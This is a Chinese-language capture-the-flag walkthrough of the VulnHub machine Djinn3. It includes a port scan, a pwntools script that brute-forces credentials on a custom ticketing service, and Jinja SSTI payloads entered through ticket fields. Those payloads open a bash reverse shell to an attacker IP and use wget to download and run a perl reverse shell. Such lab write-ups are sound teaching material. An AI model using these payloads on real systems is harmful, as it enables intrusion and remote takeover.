




# Djinn3

> https://download.vulnhub.com/djinn/djinn3.tar.gz

靶场IP：`192.168.32.232`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.232                                                                                         

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 10:33 EDT
Nmap scan report for 192.168.32.232
Host is up (0.00050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    lighttpd 1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
31337/tcp open  Elite?

```

浏览器访问80端口



浏览器访问5000端口



此端口托管一个 python Web 服务器。我们看到一张带有编号、ID、标题、状态和链接的票证列表。点击链接重定向到`http://djinn.box:5000/?id=<ID>`。

浏览不同的票证可以发现以下用户名的潜在存在：

- jack
- jason
- david
- freddy

访问31337端口，看起来需要正确账号和密码。

```
┌──(root💀kali)-[/tmp]
└─# nc 192.168.32.232 31337
username> anonymous
password> 123
authentication failed

```

brute.py

```
#!/usr/bin/env python3

from pwn import *
import sys

host, port = '192.168.32.232', 31337

# https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt

with open('userpass.txt') as f:
    data = f.readlines()

for creds in data:
    (username, password) = creds.split(' ')
    username = username.strip()
    password = password.strip()

    s = remote(host, port, level='error')
    
    s.recvuntil('username> ')
    s.sendline(username)
    s.recvuntil('password> ')
    s.sendline(password)

    msg = s.recvline()
    if b'authentication failed' not in msg:
        print("[+] Valid credentials found: {}:{}".format(username, password))
        sys.exit(0)

    s.close()
```

发现账号密码:`guest:guest`

```
┌──(root💀kali)-[/tmp]
└─# python3 brute.py
/tmp/brute.py:20: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil('username> ')
/tmp/brute.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline(username)
/tmp/brute.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil('password> ')
/tmp/brute.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline(password)
[+] Valid credentials found: guest:guest

```

连接成功

```
┌──(root💀kali)-[/tmp]
└─# nc 192.168.32.232 31337                                   
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit

```

新建票据

```
> open
Title: test
Description: test
> 
```

刷新页面



使用ssti漏洞

```
> open
Title: {{7*7}}
Description: {{7*7}}
```



我尝试直接注入一个反向 shell，但它不起作用

```
{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/192.168.32.130/4444 0>&1').read()}}
```

我决定生成一个反向 shell`msfvenom`并强制目标下载它并从`/tmp`. 让我们首先生成我们的反向 shell 并使其可用于 python web 服务器：

```
┌──(root💀kali)-[/tmp]
└─# cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.pl 
```

```
{{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.32.130:8000/shell.pl -O /tmp/shell.pl').read()}}
```

```
{{config.__class__.__init__.__globals__['os'].popen('cd /tmp/ && perl perl.pl').read()}}
```


